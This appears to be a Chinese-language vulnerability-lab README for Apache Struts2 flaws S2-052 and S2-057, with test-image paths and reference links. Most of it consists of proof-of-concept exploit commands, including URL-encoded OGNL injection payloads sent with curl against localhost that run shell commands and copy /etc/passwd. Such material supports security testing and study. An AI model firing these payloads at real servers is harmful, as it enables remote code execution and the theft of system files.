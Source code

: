 ## S2-052 xtream 反序列化漏洞

测试镜像

* src/struts/2.5.12/

Poc

```
python s2-052.py -u http://127.0.0.1:8080/struts2-rest-showcase/orders/3 -c whoami
```

## S2-057 struts namespace OGNL 代码执行漏洞

说明

* namespace 里可以出现 `/`，无需编码

测试镜像

* src/struts/2.3.20

参考资料

* [St2-057 Poc Example](https://github.com/jas502n/St2-057)
* [【Struts2-代码执行漏洞分析系列】S2-057](https://xz.aliyun.com/t/2618)

Poc

```
// Runtime.exec
curl 'http://127.0.0.1/struts2-showcase/%24%7b(%23_memberAccess%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%2C%40java.lang.Runtime%40getRuntime().exec(%27cp%20/etc/passwd%20/tmp%27))%7d/actionChain1.action'

// ProcessBuilder.start
curl 'http://127.0.0.1/struts2-showcase/%24%7b(%23_memberAccess=%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS,%23cmd=%7B%27/bin/bash%27,%27-c%27,%27cp%20/etc/hosts%20/tmp%27%7D,%23p=new%20java.lang.ProcessBuilder(%23cmd),%23p.start())%7d/actionChain1.action'

ls -lah /tmp/passwd
```

